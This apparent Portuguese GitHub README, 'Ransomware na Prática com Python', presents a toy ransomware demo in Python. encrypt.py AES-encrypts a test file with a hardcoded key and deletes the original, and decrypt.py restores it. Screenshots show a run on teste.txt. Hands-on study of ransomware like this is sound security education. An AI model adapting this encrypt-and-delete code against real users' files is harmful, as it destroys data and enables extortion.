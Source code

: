 # Ransomware na Prática com Python

Arquivo encrypt.py (para criptografar a mensagem):

Código:
```python
import os
import pyaes

# Função para criptografar o arquivo
def encrypt_file(file_name, key):
    # Verificar se o arquivo existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo a ser criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Remover o arquivo original
    os.remove(file_name)

    # Criação do objeto AES para criptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografar o conteúdo do arquivo
    crypto_data = aes.encrypt(file_data)

    # Gerar o nome do novo arquivo criptografado
    new_file_name = f"{file_name}.ransomwaretroll"

    # Salvar o arquivo criptografado
    with open(new_file_name, "wb") as new_file:
        new_file.write(crypto_data)

    print(f"Arquivo criptografado salvo como {new_file_name}.")

# Definir chave de criptografia
key = b"testeransomwares"
file_name = "teste.txt"

# Chamar a função para criptografar o arquivo
encrypt_file(file_name, key)
```


![alt text](10.png)

Arquivo decrypt.py  (para descriptografar a mensagem):

Código:

```python
import os
import pyaes

# Função para descriptografar o arquivo
def decrypt_file(file_name, key):
    # Verificar se o arquivo criptografado existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Criação do objeto AES para descriptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Descriptografar os dados do arquivo
    decrypt_data = aes.decrypt(file_data)

    # Remover o arquivo criptografado
    os.remove(file_name)

    # Criar e salvar o arquivo descriptografado
    new_file_name = file_name.replace(".ransomwaretroll", "")  # Remover o sufixo
    with open(new_file_name, "wb") as new_file:
        new_file.write(decrypt_data)

    print(f"Arquivo descriptografado salvo como {new_file_name}.")

# Definir chave de descriptografia
key = b"testeransomwares"
file_name = "teste.txt.ransomwaretroll"

# Chamar a função para descriptografar o arquivo
decrypt_file(file_name, key)
```

![alt text](11.png)

Mensagem de texto:

![alt text](12.png)

Encryptando a mensagem:

![alt text](13.png)

Arquivo descriptografado salvo como teste.txt:

![alt text](15.png)




